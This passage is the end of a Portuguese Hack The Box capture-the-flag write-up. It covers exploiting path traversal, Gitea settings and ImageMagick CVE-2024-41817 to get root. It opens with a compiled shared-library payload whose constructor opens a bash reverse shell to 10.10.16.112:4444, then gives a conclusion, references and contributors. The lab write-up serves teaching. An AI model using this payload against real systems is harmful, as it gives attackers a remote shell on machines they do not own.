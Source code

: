 ```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.112/4444 0>&1'");
    exit(0);
}
EOF
```

Acesse o diretório de root e colete a flag.

## Conclusão

Este exercício demonstrou a exploração da vulnerabilidade de Path Traversal para extração de dados sensíveis e o aproveitamento de configurações vulneráveis do Gitea para escalonamento de privilégios. A exploração da vulnerabilidade no ImageMagick [CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) permitiu a execução de código levando a flag de root.

## Referências

- [Hack The Box](https://app.hackthebox.com/home)
- [ImageMagick CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)
- [Documentação do Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [Documentação Gitea](https://docs.gitea.com/administration/config-cheat-sheet)

## contribuidores

- [andre](https://www.linkedin.com/in/andreluisdantas65)
- [rio](https://www.linkedin.com/in/rio-ribeiro)
- [lucas](https://www.linkedin.com/in/lucas-rs-melo)
- [paixao](https://www.linkedin.com/in/darccau)
